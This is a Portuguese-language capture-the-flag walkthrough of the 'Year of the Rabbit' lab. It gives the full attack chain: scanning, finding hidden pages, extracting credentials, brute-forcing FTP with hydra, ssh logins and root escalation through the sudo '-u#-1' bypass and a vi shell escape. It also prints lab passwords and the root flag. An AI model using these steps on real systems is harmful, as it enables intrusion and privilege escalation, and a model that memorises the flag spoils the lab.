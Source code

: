 # Year of the Rabbit

## Login ssh

```bash
nmap -sV -A 10.10.65.37
```

```bash
gobuster -u 10.10.65.37 -w wordlist/directory-commom.txt -x php,html,txt
```

- `10.10.65.37/assets`
- Em `style.css`
    
    ```
      /* Nice to see someone checking the stylesheets.
         Take a look at the page: /sup3r_s3cr3t_fl4g.php
      */
    ```
    
- `10.10.65.37/sup3r_s3cr3t_fl4g`
- Em `10.10.65.37/sup3r_s3cr3t_fl4g.php` usando o `no-scripts` e o `BurpSuite`
    
    ![Untitled](Untitled.png)
    
    - `/intermediary.php?hidden_directory=/WExYY2Cv-qU`
- `10.10.65.37/WExYY2Cv-qU`
- Baixe a imagem
    
    ```bash
    wget http://10.10.65.37/WExYY2Cv-qU/Hot_Babe.png
    strings Hot_Babe.png
    ```
    
    ```bash
    Eh, you've earned this. Username for FTP is ftpuser
    One of these is the password:
    [...]
    ```
    
- Salve o resto do arquivo para usar de senha e o usuario
    
    ```bash
    hydra -l ftpuser -P passwords.txt ftp://10.10.65.37
    ```
    
    `[21][ftp] host: 10.10.65.37 login: ftpuser password: 5iez1wGXKfPKQ`
    
- login ftp
    
    ```bash
    ssh ftpuser@10.10.65.37
    ftpuser
    5iez1wGXKfPKQ
    ls
    get Eli's_Creds.txt
    exit
    strings Eli's_Creds.txt
    ```
    
- Isso eh uma criptografia brain fuck
    - [https://www.dcode.fr/langage-brainfuck](https://www.dcode.fr/langage-brainfuck)
    
    > user: eli
    Password: DSpDiM1wAEwid
    > 
- Login ssh
    
    ```bash
    ssh eli@10.10.65.37
    DSpDiM1wAEwid
    "Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
    ```
    
- Procurando esse s3cr3t
    
    ```bash
    locate s3cr3t
    /usr/games/s3cr3t
    /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
    /var/www/html/sup3r_s3cr3t_fl4g.php
    ```
    
- `/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`
    
    ```bash
    cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
    	Gwendoline MniVCQVhQHUNI
    ```
    
- Login gwendoline
    
    ```bash
    cat /etc/passwd
    exit
    ssh gwendoline@10.10.65.37
    ```
    

## What is the user flag?

```bash
cat /home/gwendoline/user.txt
```

## What is the root flag?

```bash
sudo -l
sudo -l -l
```

- Pesquisando por `(ALL, !root) NOPASSWD: vulnera
    - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- ou
    
    ```bash
    sudo -v
    ```
    
    - `Sudo version 1.8.10p3`
- `os.system("sudo -u#-1 "+ binary)`
    
    ```bash
    sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
    ```
    
- Continua
    - [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/) (b)
    
    ```bash
    :set shell=/bin/sh
    :shell
    ```
    
- Pegando flag
    
    ```bash
    cat /root/root*
    ```
    
    `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`